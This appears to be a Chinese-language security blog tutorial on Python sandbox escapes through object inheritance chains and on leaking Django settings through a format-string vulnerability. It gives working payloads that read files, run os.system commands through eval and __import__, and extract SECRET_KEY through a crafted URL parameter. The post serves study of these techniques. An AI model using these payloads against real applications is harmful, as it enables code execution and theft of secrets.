

前言
继承链这个这个词是我自己发明的。看到有的师傅博客中将它称为egg或者ssti，但是我喜欢叫它继承链因为感觉很生动。最早遇到这种姿势是在学习python bypass沙盒的时候。当时不是很理解形如().__class__.__bases__[0].__subclasses__()的意思。学习一段时间后，我决定来总结一下构造继承链的方法，并且用此方法在django有格式化字符串漏洞的情况下读取配置文件（灵感来自p师傅博客）。
基础知识
bases
返回一个类直接所继承的类（元组形式）
1 | class Base1: |
在看别人文章时发现mro和bases用法相同，两者具体区别， 暂时留个坑。
一些情况下也可用__base__直接返回单个的类
class
1 | class Base: |
返回一个实例所属的类
globals
1 | #coding:utf-8 |
使用方式是 函数名.__globals__，返回一个当前空间下能使用的模块，方法和变量的字典。
subclasses()
获取一个类的子类，返回的是一个列表
1 | class Base1(object): |
builtin && builtins
python中可以直接运行一些函数，例如int(),list()等等。这些函数可以在__builtins__中可以查到。查看的方法是dir(__builtins__)。在控制台中直接输入__builtins__会看到如下情况
1 | #python2 |
ps：在py3中__builtin__被换成了builtin
__builtin__ 和 __builtins__之间是什么关系呢？
1、在主模块main中，__builtins__是对内建模块__builtin__本身的引用，即__builtins__完全等价于__builtin__，二者完全是一个东西，不分彼此。
2、非主模块main中，__builtins__仅是对__builtin__.__dict__的引用，而非__builtin__本身
继承链bypass沙盒
用file对象读取文件
构造继承链的一种思路是：
- 随便找一个内置类对象用
__class__拿到他所对应的类 - 用
__bases__拿到基类（<class 'object'>） - 用
__subclasses__()拿到子类列表 - 在子类列表中直接寻找可以利用的类
一言敝之
1 | ().__class__.__base__.__subclasses__() |
可以看到列表里面有一坨，这里只看file对象。
1 | [...,<type 'file'>, ...] |
查找file位置。
1 | #coding:utf-8 |
<type 'file'>在第40位。().__class__.__bases__[0].__subclasses__()[40]
用dir来看看内置的方法
1 | dir(().__class__.__bases__[0].__subclasses__()[40]) |
1 | ['__class__', '__delattr__', '__doc__', '__enter__', '__exit__', '__format__', '__getattribute__', '__hash__', '__init__', '__iter__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'close', 'closed', 'encoding', 'errors', 'fileno', 'flush', 'isatty', 'mode', 'name', 'newlines', 'next', 'read', 'readinto', 'readline', 'readlines', 'seek', 'softspace', 'tell', 'truncate', 'write', 'writelines', 'xreadlines'] |
所以最终的payload是
1 | ().__class__.__bases__[0].__subclasses__()[40]('filename').readlines() |
然后用同样的手法可以得到__mro__形式下的payload
1 | ().__class__.__mro__[1].__subclasses__()[40]('filename').readlines() |
这种方法等价于
1 | file('backup.py').readlines() |
但是python3已经移除了file。所以第一种方法只能在py2中用。
用内置模块执行命令
第二种方法接着第一种的思路接着探索。第一种止步于把内置的对象列举出来，其实可以用__globals__更深入的去看每个类可以调用的东西（包括模块，类，变量等等），万一有os这种东西就赚了。
1 | #coding:utf-8 |
1 | ().__class__.__mro__[1].__subclasses__()[77].__init__.__globals__['os'].system('whoami') |
不过很可惜上述的方法也只能在py2中使用。
第三种
那有没有通吃py2和py3的方法呢？答案是有的，就用上面__builtins__来搞事。
1 | #coding:utf-8 |
于是乎
py3
1 | ().__class__.__bases__[0].__subclasses__()[64].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')") |
py2
1 | ().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')") |
继承链读django配置信息
p师傅的利用格式化字符串漏洞泄露Django配置信息一文中给了两个payload都是无登陆情况下读到django配置信息，我们可以用上面所述方法找到更多的payload。
测试代码如下
1 | from django.http import HttpResponse |
因为是无登陆情况，所以requests.User里面的对象是AnonymousUser的实例
1 | class AnonymousUser(object): |
观察到_groups属性是一个EmptyManager对象。
跟踪EmptyManager来到manger.py
1 | ##省略 |
跟踪QuerySet来到query.py
1 | ##省略 |
settings里面就是django的配置了。
将上面的跟踪一步一步转换成payload就是
拿到EmptyManager对象：user._groups.__class__
拿到QuerySet对象：user._groups.__class__.__base__.__init__.__globals__[QuerySet]
拿到SECRET_KEY
{user._groups.__class__.__base__.__init__.__globals__[QuerySet].__init__.__globals__[settings].SECRET_KEY}
所以最后的payload是
1 | http://127.0.0.1:8000/search?keyword={user._groups.__class__.__base__.__init__.__globals__[QuerySet].__init__.__globals__[settings].SECRET_KEY} |

ps:有登陆的情况下构造过程中继承链的感觉更强烈，有兴趣的师傅可以试一下~
参考
https://www.anquanke.com/post/id/85571
http://www.cnblogs.com/iamstudy/articles/python_eval_and_bypass_sandbox_study.html
https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html